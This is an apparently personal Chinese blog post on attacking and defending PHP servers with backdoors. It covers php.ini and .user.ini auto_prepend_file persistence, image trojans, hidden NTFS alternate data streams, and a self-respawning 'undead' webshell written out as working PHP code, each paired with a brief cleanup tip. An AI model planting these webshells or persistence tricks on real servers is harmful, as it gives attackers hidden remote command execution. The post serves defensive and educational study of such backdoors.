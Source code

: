 ```yaml
---
layout: post
title : php常见漏洞攻防
#二级标题
subtitle : php.ini、ADS、图片木马、.user.ini
author : Bert
header-img: img/post-bg-miui6.jpg
catalog : true
date : 2021-12-21 20:23
tags :
 - web安全
 - php安全
---
```


### php后门

> php常见后门

#### php.ini

> 利用php.ini 的auto_prepend_file 和 include_path
>
> 解决办法:检查ini文件,删除后门文件重启

- 首先上官网介绍:![php-security](https://bertgo.github.io/img/code-img/php-security.png)在php加载之前,首先加载auto_prepend_file的文件,auto_append_file则是在php运行结束后,加载指定的文件

- 示例:![image-20211221204130490](https://bertgo.github.io/img/code-img/image-20211221204130490.png)![image-20211221204500181](https://bertgo.github.io/img/code-img/image-20211221204500181.png) 

  test.php文件内容:![image-20211221213638683](https://bertgo.github.io/img/code-img/image-20211221213638683.png)

  我的index.php文件内容:![image-20211221205225412](https://bertgo.github.io/img/code-img/image-20211221205225412.png)

  运行结果:![image-20211221205719990](https://bertgo.github.io/img/code-img/image-20211221205719990.png)
#### 图片木马

> 解决办法:waf扫描,检查后门

- 放个图片木马:![image-20211221214513218](https://bertgo.github.io/img/code-img/image-20211221214513218.png)

  改名1.jpg:![image-20211221214532259](https://bertgo.github.io/img/code-img/image-20211221214532259.png)

  然后用后门文件包含:![image-20211221214635442](https://bertgo.github.io/img/code-img/image-20211221214635442.png)

  运行: ![image-20211221214709171](https://bertgo.github.io/img/code-img/image-20211221214709171.png)

#### 利用ads隐藏文件 

> NTFS交换数据流（Alternate　Data　Streams，简称 ADS）是 NTFS 磁盘格式的一个特性，在 NTFS文件系统下，每个文件都可以存在多个数据流。通俗的理解，就是其它文件可以“寄宿”在某个文件身上，而在资源管理器中却只能看到宿主文件，找不到寄宿文件。利用ADS 数据流，我们可以做很多有趣的事情。(我抄的)

- 命令行创建一个寄宿文件,比如index.php是我已有的文件:

  ```shell
  echo ^ > index.php:shell.jpg
  ```

- 这样就生成了一个正常情况看不见的文件:![image-20211222221828447](https://bertgo.github.io/img/code-img/image-20211222221828447.png)

- 使用dir /r 查看:![image-20211222222009768](https://bertgo.github.io/img/code-img/image-20211222222009768.png)

- 此时这个index.php:shell.jpg是寄宿于index.php的,我们现在给index.php改个名字:![image-20211222222300808](C:/Users/Administrator/AppData/Roaming/Typora/typora-user-images/image-20211222222300808.png)

  所以,**想删除寄宿文件,删除原文件即可**:

  ![image-20211222222442937](https://bertgo.github.io/img/code-img/image-20211222222442937.png)

#### php环境变量留马

- 同上面差不多,就不多说了,检查时记得检查include_path 这个位置有没有马 ![image-20211222222941432](https://bertgo.github.io/img/code-img/image-20211222222941432.png)

#### 不死马

- 运行后,会删除自身,生成一个新的webshell.php,被删除后还会继续生成:

  ```php
  <?php
  set_time_limit(0);
  ignore_user_abort(1);
  unlink(__FILE__);
  while(1){
      file_put_contents('webshell.php','<?php system($_POST["bert8848"])?>');
      sleep(5);
  }
  ```

- ![image-20211222224435017](https://bertgo.github.io/img/code-img/image-20211222224435017.png)

- 解决办法:覆盖重写,或者重启web服务后,删掉即可

  ```php
  <?php
  set_time_limit(0);
  ignore_user_abort(1);
  unlink(__FILE__);
  while(1){
      file_put_contents('webshell.php', 'clear it');
      sleep(5);
  }
  ```

#### php利用.user.ini

> 原文地址:http://drops.wooyun.org/tips/3424

- 这得从php.ini说起了。php.ini是php默认的配置文件，其中包括了很多php的配置，这些配置中，又分为几种：`PHP_INI_SYSTEM`、`PHP_INI_PERDIR`、`PHP_INI_ALL`、`PHP_INI_USER`。 在此可以查看：http://php.net/manual/zh/ini.list.php 这几种模式有什么区别？看看官方的解释：

  ![enter image description here](https://bertgo.github.io/img/code-img/2014103002272568560.png)

  其中就提到了，模式为PHP_INI_USER的配置项，可以在ini_set()函数中设置、注册表中设置，再就是.user.ini中设置。 这里就提到了.user.ini，那么这是个什么配置文件？那么官方文档在[这里](http://php.net/manual/zh/configuration.file.per-user.php)又解释了：

  除了主 php.ini 之外，PHP 还会在每个目录下扫描 INI 文件，从被执行的 PHP 文件所在目录开始一直上升到 web 根目录（`$_SERVER['DOCUMENT_ROOT']` 所指定的）。如果被执行的 PHP 文件在 web 根目录之外，则只扫描该目录。

  在 `.user.ini` 风格的 INI 文件中只有具有 PHP_INI_PERDIR 和 PHP_INI_USER 模式的 INI 设置可被识别。

  这里就很清楚了，`.user.ini`实际上就是一个可以由用户“自定义”的php.ini，我们能够自定义的设置是模式为“PHP_INI_PERDIR 、 PHP_INI_USER”的设置。（上面表格中没有提到的PHP_INI_PERDIR也可以在.user.ini中设置）

  实际上，除了`PHP_INI_SYSTEM`以外的模式（包括PHP_INI_ALL）都是可以通过.user.ini来设置的。

  而且，和`php.ini`不同的是，`.user.ini`是一个能被动态加载的ini文件。也就是说我修改了`.user.ini`后，不需要重启服务器中间件，只需要等待`user_ini.cache_ttl`所设置的时间（默认为300秒），即可被重新加载。

  然后我们看到php.ini中的配置项，可惜我沮丧地发现，只要稍微敏感的配置项，都是`PHP_INI_SYSTEM`模式的（甚至是php.ini only的），包括`disable_functions`、`extension_dir`、`enable_dl`等。 不过，我们可以很容易地借助`.user.ini`文件来构造一个“后门”。

  Php配置项中有两个比较有意思的项（下图第一、四个）：

  ![enter image description here](https://bertgo.github.io/img/code-img/2014103002272554789.png)

  `auto_append_file`、`auto_prepend_file`，点开看看什么意思：

  ![enter image description here](https://bertgo.github.io/img/code-img/2014103002272569525.png)

  指定一个文件，自动包含在要执行的文件前，类似于在文件前调用了require()函数。而auto_append_file类似，只是在文件后面包含。 使用方法很简单，直接写在.user.ini中：

  ```nginx
  auto_prepend_file=01.gif
  ```

- 再后面,就和文章开头的php.ini一样了,戳: [php.ini](#php.ini)

